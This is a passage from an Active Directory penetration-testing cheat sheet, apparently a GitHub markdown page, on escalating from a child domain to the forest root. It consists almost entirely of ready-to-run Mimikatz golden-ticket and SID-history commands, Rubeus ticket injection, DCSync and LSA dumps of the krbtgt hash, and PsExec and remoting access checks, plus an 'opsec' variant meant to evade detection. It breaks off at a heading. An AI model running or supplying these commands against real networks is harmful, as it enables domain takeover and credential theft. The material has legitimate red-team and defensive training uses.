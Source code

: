 ````
#### Create an inter-realm TGT
- Uses well know Enterprise Admins SIDS
- ```Get-DomainGroup "Enterprise Admins" -Domain <TARGET DOMAIN> | Select-Object samaccountname, objectsid```
```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /rc4:<TRUST KEY HASH> /service:krbtgt /target:<FQDN PARENT DOMAIN> /ticket:<PATH TO SAVE TICKET>"'
```

#### Create a TGS using Rubeus and inject current Powershell session
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:<SERVICE>/<FQDN PARENT DC> /dc:<FQDN PARENT DC> /ptt
```

#### Check access on target machine
```
ls \\<FQDN>\c$
Enter-PSSession -ComputerName <FQDN>
 .\PsExec64.exe \\<COMPUTERNAME> cmd
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Krbtgt hash
- Abuses SID History
#### Get krbtgt hash from dc
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <DC>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"' -Computername <DC>
```

#### Create TGT and inject in current session
- The mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for the Forest Enterprise Admin Group
- ```Get-DomainGroup "Enterprise Admins" -Domain <TARGET DOMAIN> | Select-Object samaccountname, objectsid```
- Also possible to use the <DOMAIN SID>-519 (519 is the enterprise admin group)
- Remove ```/ptt``` to save ticket to file
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /krbtgt:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /ptt"'
```
 
- *Opsec way*
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /aes256:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /startoffset:-10 /endin:600 /renewmax:10080 /ptt"'
```

#### Check access on target machine
```
ls \\<FQDN>\c$
Enter-PSSession -ComputerName <FQDN>
 .\PsExec64.exe \\<COMPUTERNAME> cmd
```

#### Run DCSync to get credentials:
````